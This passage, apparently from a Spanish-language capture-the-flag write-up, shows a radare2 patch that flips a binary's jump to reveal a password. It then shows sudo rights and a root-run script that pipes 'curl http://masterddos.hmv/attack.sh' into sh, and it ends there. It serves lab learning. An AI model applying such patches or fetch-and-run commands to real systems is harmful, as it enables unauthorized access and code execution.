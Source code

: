 ```
│       ┌─< 0x00001257   *  7572           jne 0x12cb
│       │   0x00001259      488d3dca0d00.  lea rdi, str.Correct___Here_is_the_pass:    ; 0x202a ; "Correct!! Here is
│       │   0x00001260      e8dbfdffff     call sym.imp.puts           ;[6] ; int puts(const char *s)
│       │   0x00001265      488d8530feff.  lea rax, [var_1d0h]
│       │   0x0000126c      488d15e50d00.  lea rdx, str.FuprpRblcTzeg5JDNNasqeWKpFHvms4rMgrpAFYj5Zngqgvl7jK0iPpViDRe
│       │   0x00001273      b937000000     mov ecx, 0x37               ; '7'
│       │   0x00001278      4889c7         mov rdi, rax
│       │   0x0000127b      4889d6         mov rsi, rdx
│       │   0x0000127e      f348a5         rep movsq qword [rdi], qword ptr [rsi]
│       │   0x00001281      4889f2         mov rdx, rsi
│       │   0x00001284      4889f8         mov rax, rdi
:> wa je 0x12cb
```

Queda de la siguiente manera

```
0x00001254      3945f8         cmp dword [var_8h], eax
│       ┌─< 0x00001257      7472           je 0x12cb
│       │   0x00001259      488d3dca0d00.  lea rdi, str.Correct___Here_is_the_pass: ; 0x202a ; "Correct!! Here is the pass:" ; const char *s
```

Ahora al ejecutarlo, cualquier entrada que pongamos nos dará correcto.

```
$ ./test_4_green
Guess the number im thinking: pepe
Correct!! Here is the pass:
pur******
```

### Root

Purple tiene permiso para ejeuctar "/attack_dir/ddos.sh" como usuario root.

```
purple@color:/home/green$ sudo -l
sudo -l
Matching Defaults entries for purple on color:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User purple may run the following commands on color:
    (root) NOPASSWD: /attack_dir/ddos.sh
```

Al leerlo se puede ver que el script realiza una petición al dominio **masterddos.hmv** y ejecuta el script **attack.sh**.

```
purple@color:~$ cat /attack_dir/ddos.sh
#!/bin/bash
/usr/bin/curl http://masterddos.hmv/attack.sh | /usr/bin/sh -p
```
